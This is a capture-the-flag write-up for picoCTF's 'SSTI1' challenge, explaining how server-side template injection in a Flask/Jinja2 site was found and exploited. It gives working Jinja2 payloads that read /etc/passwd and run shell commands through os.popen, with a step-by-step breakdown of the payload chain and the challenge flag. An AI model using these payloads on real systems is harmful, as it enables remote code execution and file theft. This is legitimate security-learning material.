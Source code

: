 🔖 Challenge Info

    Challenge Name: SSTI1

    Category: Web Exploitation

    CTF Platform: picoCTF

    Date Solved: 2025-05-02

📜 Challenge Description

    I made a cool website where you can announce whatever you want! Try it out!
    Additional details will be available after launching your challenge instance.

🧪 Recon & Enumeration

    I started by inspecting the webpage, but I didn’t find anything useful at first glance.

    I checked the provided hint, which stated:

        “Server Side Template Injection”

    I paused for around 1–2 hours to study SSTI (Server-Side Template Injection) and how to detect and exploit it.

To test for SSTI, I used the following payload:

    {{7*7}}

When I submitted it in the input field, the output was:

    49

This confirmed the presence of SSTI.
🧨 Vulnerability Identified

    Vulnerability: Server-Side Template Injection

    Template Engine: Likely Jinja2 (based on the payload behavior)

💣 Exploitation Steps

    I researched common SSTI payloads for Jinja2.

    I found this payload, which tries to read the /etc/passwd file:

    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}

However, this didn't work in my case, so I looked for simpler payloads.

I used this payload to execute the ls command:

    {{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

This returned:

    __pycache__ app.py flag requirements.txt

Then, I used the cat command to read the flag:

    {{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}

Output:

    picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}

🏁 Flag

    picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}

Note : 

Step-by-Step Breakdown
1. config

    In Flask apps, config is often available in the template context.

    It’s an instance of the Config class, which holds configuration values.

2. config.__class__

    Accesses the class of the config object: <class 'flask.config.Config'>.

3. __init__

    Gets the __init__ method of the class, which is the constructor function.

4. __globals__

    Every Python function has a __globals__ attribute: a dictionary of all the global variables/modules accessible in that function.

    Since __init__ is a method, you can use it to access the global scope of the module where flask.config.Config is defined — including the os module if it was imported there.

5. ['os']

    Retrieves the os module from the __globals__ dictionary.

6. .popen('ls')

    Uses os.popen() to run the shell command ls (list directory contents).

    This returns a file-like object.

7. .read()

    Reads the output of the ls command from the file-like object.

8. {{ ... }}

    Jinja2 syntax to evaluate the expression and display the result in the HTML output.
